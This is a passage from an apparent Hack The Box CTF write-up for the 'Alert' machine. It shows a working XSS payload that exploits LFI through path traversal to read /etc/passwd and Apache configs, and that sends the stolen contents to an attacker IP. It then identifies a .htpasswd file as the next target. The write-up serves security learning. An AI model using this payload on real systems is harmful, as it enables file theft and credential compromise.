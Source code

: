 There's a new parameter **file** that we can modify. First thing that we could test for is an LFI vulnerability. Since we can't access messages.php, we'll have to force admin to fetch the page again, but this time with a local file, like **/etc/passwd**. So we can edit the request to the page in our script like this:

```html
<!-- XSS Payload -->
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../../etc/passwd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.163:9001/?data=" + encodeURIComponent(data));
  })
  .catch(err => console.error("Error:", err));
</script>
```

Following the same attack vector as above, we url decode the received data and get the **/etc/passwd** file, meaning that the machine is ==**vulnerable to LFI**== as well. 

Now we want to try and get a more sensitive file. Earlier we found a subdomain named statistics that was protected with HTTP Authentication. Config files for subdomains are located in **/etc/apache2/sites-available**. The default config file is usually named **000-default.conf**. We want that file so we'll update our payload accordingly.

We were able to pull that file from the server and upon examination, we see the details of the statistics subdomain:

```
<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

```

There is one line that sticks out: 
`AuthUserFile /var/www/statistics.alert.htb/.htpasswd`
